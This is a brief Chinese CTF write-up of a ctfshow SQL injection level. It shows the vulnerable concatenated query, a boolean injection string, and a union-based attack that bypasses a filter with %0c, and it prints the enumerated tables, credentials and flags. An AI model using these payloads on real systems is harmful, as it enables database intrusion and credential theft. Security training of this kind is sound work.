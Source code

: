 #### 链接

[https://blog.csdn.net/solitudi/article/details/110144623]: sql注入	"sql注入byY4tacker"


查询语句

```mysql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```



返回逻辑

```php
//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```



一句话 

```mysql
id=-1'or(id=26)and'1'='1

0'||username='flag


flag{962bbb5d-18b7-4051-ba2e-724e794e0678}
```



payload

#### 暂无

尝试绕过过滤

##### 

```mysql
//判断注入
1'%0cand%0c1=1%23

//判断字段
1'%0corder%0cby%0c3%23

//判段数据库
1'%0cUnion%0cSelect%0cuser(),database(),version()%23
root@localhost			ctfshow_web			10.3.18-MariaDB

//判断table
1'%0cUnion%0cSelect%0cuser(),table_name,version()%0cfrom%0cinformation_schema.tables%0cwhere%0ctable_schema=database()%23
root@localhost			ctfshow_user			10.3.18-MariaDB


//判断字段

1'%0cUnion%0cSelect%0cuser(),column_name,version()%0cfrom%0cinformation_schema.columns%0cwhere%0ctable_name='ctfshow_user'%23
root@localhost	id					10.3.18-MariaDB
root@localhost	username			10.3.18-MariaDB
root@localhost	password			10.3.18-MariaDB



//判断内容

1'%0cUnion%0cSelect%0cuser(),username,password%0cfrom%0cctfshow_user%23

root@localhost	admin				admin
root@localhost	user1				111
root@localhost	user2				222
root@localhost	userAUTO			passwordAUTO
root@localhost	flag				flag{dd46a444-c467-442f-a084-bef9e27eda3f}
```





